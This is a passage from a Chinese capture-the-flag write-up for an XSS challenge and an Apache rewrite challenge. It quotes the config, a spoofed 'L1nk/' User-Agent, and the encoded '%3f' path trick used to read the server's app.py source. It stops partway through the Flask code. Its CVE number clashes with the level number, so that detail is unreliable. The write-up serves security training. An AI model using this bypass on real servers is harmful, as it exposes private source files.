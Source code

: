 然后访问/admin路径触发admin访问，再回到开始页面刷新即可

```python
hgame{W0w_y0u_5r4_9o0d_4t_xss}
```

## `Level 38475 角落`​

先用dirsearch扫一下，果然有东西，robots.txt，复习一下

​![image](img/hgame1/image-20250212025612-mdd5e7b.png)​

找到app.conf，审计

```python
# Include by httpd.conf
<Directory "/usr/local/apache2/app">
    Options Indexes
    AllowOverride None
    Require all granted
</Directory>

<Files "/usr/local/apache2/app/app.py">
    Order Allow,Deny
    Deny from all
</Files>

RewriteEngine On
RewriteCond "%{HTTP_USER_AGENT}" "^L1nk/"
RewriteRule "^/admin/(.*)$" "/$1.html?secret=todo"

ProxyPass "/app/" "http://127.0.0.1:5000/"
```

思路是改一下UR为L1nk/，去访问/admin/usr/local/apache2/app/app.py，但是一直失败

后来请教了一下学长，发现题号对应了一个漏洞CVE-2024-38745

改了一下url为/admin/usr/local/apache2/app/app.py%3f，成功了

审计app.py

```python
from flask import Flask, request, render_template, render_template_string, redirect
import os
import templates

app = Flask(__name__)
pwd = os.path.dirname(__file__)
show_msg = templates.show_msg


def readmsg():
    filename = pwd + "/tmp/message.txt"
    if os.path.exists(filename):
        f = open(filename, 'r')
        message = f.read()
        f.close()
        return message
    else:
        return 'No message now.'


@app.route('/index', methods=['GET'])
def index():
    status = request.args.get('status')
    if status is None:
        status = ''
```